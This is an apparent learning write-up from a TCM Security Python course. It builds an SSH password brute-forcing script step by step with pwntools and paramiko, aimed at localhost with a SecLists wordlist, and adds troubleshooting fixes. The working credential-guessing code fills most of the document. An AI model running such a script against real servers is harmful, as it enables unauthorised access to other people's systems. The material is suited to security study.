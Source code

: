 # SSH-login-brute-forcing

# Description
A Python script for SSH password brute forcing using a list of possible common credentials. This is a guided learning from TCM Security: Python 101. Although this is a guided learning, I have also encountered a few problems and the solutions can be accessed at the end of this note. 

# Features:
- pwn library
- paramiko library
- a list of passwords 

# Steps

<b>1) Importing modules</b>
- Import <code>pwn</code> module and import <code>paramiko</code> module

```python
from pwn import *
import paramiko
```

*<code>pwn</code> module is used to interact with SSH service

*<code>paramiko</code> module is used for error handling


<b>2) Defining variables</b>

```python
host = "127.0.0.1"
username = "kali"
attempts = 0
```


<b>3) Iterating over some lists of passwords</b>

To be able to perform brute-forcing tasks, we need to iterate over some lists of passwords
- Open your file

```python
with open("passwords.txt", "r") as password_list:
  for password in password_list:
  password = password.strip("\n")
```
*replace <code>passwords.txt</code> with the <code>txt</code> file that you have


(similar list can be download here: https://github.com/danielmiessler/SecLists/tree/master/Passwords/Common-Credentials)

*<code>for</code> is a loop 


*<code>"r"</code> indicates that the file is on read mode

*<code>password.strip("\n")</code> is a combination which is used to remove newline character, this is to ensure that your code is functioning correctly and presents your list of passwords without adding/removing characters in your passwords. <code>.strip</code> is used to remove or truncates the given characters from the beginning and the end of the original string while <code>\n"</code> is a type of escape character that will create a new line when used, which basically functions as 'enter' key in physical.


<b>4) Handling authentication errors</b>

Codes are broken down into two parts for easier understanding:

A) For valid password response

```python
try:
  print("[{}] Attempting password: '{}'!".format(attempts,password))
  response = ssh(host=host, user=username, password=password, timeout=1)
  if response.connected():
    print("[>] Valid password found: '{}'!".format(password))
    response.close()
    break
```

*<code>try</code> is used to manage errors and exceptions

*<code>ssh(host=host, user=username, password=password, timeout=1)</code> is imported from <code>pwn</code> module

*<code>timeout</code> is set up to 1s

*<code>if response.connected():</code> indicates if the connection has made, we will print out <code>Valid password found</code>

*<code>response.close()</code> indicates when we know there is a valid connection, we can close the connection

*<code>break</code> is used to break the loop because when we have found the password, we do not want to keep continuing the loop.

B) For invalid password response

```python
  response.close()
except paramiko.ssh_exception.AuthenticationException:
  print("[X] Invalid password!")
attempts += 1
```
*<code>response.close()</code> is used to close the connection and start with new

*<code>except</code> is an exception

*<code>except paramiko.ssh_exception.AuthenticationException:</code> is an exception class from the Paramiko library, which is used for handling SSH connections in Python. This exception is raised when an authentication attempt fails—meaning the username or password used to connect via SSH is incorrect.

*so when the <code>except</code> fails, it will print out <code>Invalid password!</code>

*<code>attempts +=1</code> is used to count how many passwords you have tried and failed so you can keep track how many failed attempts you encounter. So every failed attempt will increase by 1

The output if you use <code>attempts += 1</code>
![Screenshot 2024-08-25 at 3 23 06 AM](https://github.com/user-attachments/assets/5d67bc84-2e3b-4782-945b-f721a760bd4f)

*I was wondering why we should use <code>+=</code> instead of <code>=</code>, so I changed my code to <code>=</code> and I found that you won't be able to keep track of the failed attempts and it will remain [1] instead of [1],[2],[3],[4]... 
![Screenshot 2024-08-25 at 3 33 24 AM](https://github.com/user-attachments/assets/9144ef71-18ca-4e5c-bc89-4dc55e689d58)

# Result

![photo_2024-08-25 05 28 42](https://github.com/user-attachments/assets/ec60c157-f081-453a-b945-059279740730)

# Documents 

# <a href="https://docs.pwntools.com/en/latest/tubes/ssh.html">pwntools for SSH</a>

# <a href="https://docs.paramiko.org/en/latest/api/ssh_exception.html">paramiko</a>


# Troubleshooting


1) EOF Error & Error reading SSH protocol banner

![Screenshot 2024-08-25 at 5 34 22 AM](https://github.com/user-attachments/assets/85c7b9cd-1c3d-41c7-b91f-5794addbf7ec)

Solution:

Added another <code>.SSHException</code> to the code to function normally after exception and before <code>attempts +=1</code>. Compare the codes between <code>ssh-brute.py</code> file and <code>fix-ssh-brute.py</code> file:

```python
except paramiko.ssh_exception.SSHException as e:
  print(f"[!] SSHException: {e}")
except Exception as e:
  print(f"[!] Unexpection Exception: {e}")
```

2) Timeout=1s is too short
   
Solution:

Timeout has increased to 10s because 1s is too short and might disrupt the SSH connection. Preferably 10s-30s.
